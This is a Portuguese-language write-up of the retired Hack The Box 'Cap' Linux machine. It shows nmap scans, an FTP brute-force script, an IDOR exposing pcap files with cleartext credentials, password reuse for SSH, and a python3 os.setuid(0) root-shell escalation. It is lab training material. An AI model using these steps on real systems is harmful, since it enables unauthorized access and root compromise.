




# Hack The Box — Cap (Linux) - Writeup (Machine Retired)

## 1. Enumeration

Inicialmente foi realizado um scan de portas utilizando **Nmap**:

```bash
nmap -Pn -sS -T4 --max-rate 100 -p21,22,50,80,443,445 10.10.10.245
```

### Resultado

```text
PORT    STATE  SERVICE
21/tcp  open   ftp
22/tcp  open   ssh
80/tcp  open   http
```

Foram identificados três serviços ativos: **FTP**, **SSH** e **HTTP**.

---

## 1.1 Service Enumeration

Foi realizado um scan mais detalhado para identificar versões e informações adicionais dos serviços:

```bash
nmap -Pn -sS -sV -sC -p21,22,80 10.10.10.245
```

```
nmap -Pn -sS -sV -sC -p80,21,22 10.10.10.245

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-14 14:58 EST
Nmap scan report for 10.10.10.245
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```

### Resultado relevante

- **FTP:** vsftpd 3.0.3  
- **SSH:** OpenSSH 8.2p1 (Ubuntu)  
- **HTTP:** Gunicorn (Python Web Server)

Essas informações indicam que a aplicação web provavelmente foi desenvolvida em **Python**, possivelmente utilizando **Flask**.

---

## 2. FTP Enumeration

Foram executados scripts de vulnerabilidade no serviço FTP:

```bash
nmap -Pn --script=ftp* -p21 10.10.10.245
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 2904 guesses in 603 seconds, average tps: 4.7

```

Nenhuma vulnerabilidade conhecida foi identificada, e o brute force não retornou credenciais válidas.

---

## 3. Web Enumeration (HTTP)

Durante a enumeração da aplicação web, foi identificado um endpoint vulnerável a **IDOR (Insecure Direct Object Reference)**:

```text
http://10.10.10.245/data/{id}
```



Alterando o parâmetro `id`, foi possível baixar arquivos no formato **.pcap**.



Ao analisar os arquivos capturados, foram identificadas **credenciais em texto claro**, que permitiram o acesso ao serviço FTP.


---

## 4. Initial Access (Foothold)

Utilizando as credenciais obtidas no arquivo `.pcap`, foi possível:

- Autenticar no **FTP**
- Reutilizar as mesmas credenciais para acesso via **SSH**

Com isso, foi obtido acesso inicial ao sistema.

---

## 5. Post-Exploitation

Após o acesso via SSH, foi realizada enumeração local, incluindo:

- Análise do diretório `/var/www`
- Identificação de uma aplicação web em **Python/Flask**
- Identificação de uma rota vulnerável a **Command Injection**

Para aprofundar a enumeração, foi utilizado o **linPEAS**, que identificou configurações inseguras relacionadas a permissões e execução de Python.



---

## 6. Privilege Escalation

Foi identificado que o binário **python3** podia ser utilizado para escalar privilégios.

Ao iniciar um interpretador Python, foi possível alterar o UID do processo:

```bash
python3
```

```python
import os
os.setuid(0)
os.system("id")
```

### Resultado

```text
uid=0(root) gid=1001(user) groups=1001(user)
```

Em seguida, foi obtido um shell como **root**:

```python
os.system("sh")
```

Com isso, o controle total da máquina foi alcançado.

---

## 7. Conclusion

A exploração da máquina foi possível devido a uma combinação de fatores:

- Vulnerabilidade **IDOR**
- Exposição de credenciais sensíveis
- Reutilização de senha
- Configuração insegura permitindo **Privilege Escalation via Python**

---
